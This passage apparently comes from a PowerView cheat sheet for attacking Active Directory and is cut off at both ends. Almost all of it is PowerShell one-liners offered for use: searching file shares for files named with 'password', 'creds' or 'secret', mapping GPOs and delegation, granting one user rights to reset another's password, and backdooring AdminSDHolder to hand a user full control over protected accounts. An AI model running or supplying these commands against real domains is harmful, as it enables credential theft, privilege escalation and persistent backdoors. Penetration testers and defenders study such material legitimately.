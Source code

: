 ```
$Password="PASSWORD"|ConvertTo-SecureString -AsPlainText -Force; $Credential=New-Object System.Management.Automation.PSCredential("CORP\user",$Password); Find-InterestingDomainShareFile -Domain CORP -Credential $Credential
```
- Recursively search a specific UNC path for keywords, Office docs, and last-access time.
```
Find-InterestingFile -Path \\SERVER\Share -Include password,creds,secret -OfficeDocs -LastAccessTime (Get-Date).AddDays(-7)
```

GPOs, GP links, access mapping
- List all GPOs in the domain.
```
Get-DomainGPO
```
- List OUs and their GPO links.
```
Get-DomainOU -GPLink | Select-Object Name,gplink
```
- List policies applied to a specific computer.
```
Get-DomainGPO -ComputerIdentity WS01.corp.local
```
- Map where a user/group has local group rights via GPO (old Find-GPOLocation).
```
Get-DomainGPOUserLocalGroupMapping -Identity "CORP\Helpdesk"
```
- Check RDP group mapping for a user in a domain.
```
Get-DomainGPOUserLocalGroupMapping -Identity "CORP\user" -Domain corp.local -LocalGroup RDP
```
- Export a CSV of GPO mappings with flattened computer arrays.
```
Get-DomainGPOUserLocalGroupMapping | % { $_.computers = ($_.computers -join ", "); $_ } | Export-Csv -NoTypeInformation gpo_map.csv
```

Delegation reconnaissance
- Users with constrained delegation configured.
```
Get-DomainUser -TrustedToAuth
```
- Computers with constrained delegation configured.
```
Get-DomainComputer -TrustedToAuth
```
- Admin-protected users who are allowed to be delegated (interesting).
```
Get-DomainUser -AllowDelegation -AdminCount
```

ACLs, DCSync rights, AdminSDHolder, backdooring
- Enumerate who has rights over a target object (resolve GUIDs).
```
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```
- Grant “will” the right to reset “matt”’s password.
```
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```
- Read AdminSDHolder permissions (resolve GUIDs).
```
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```
- Backdoor AdminSDHolder to grant “matt” full rights to protected objects.
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
- Identify principals with replication (DCSync) or full control (domain DN path).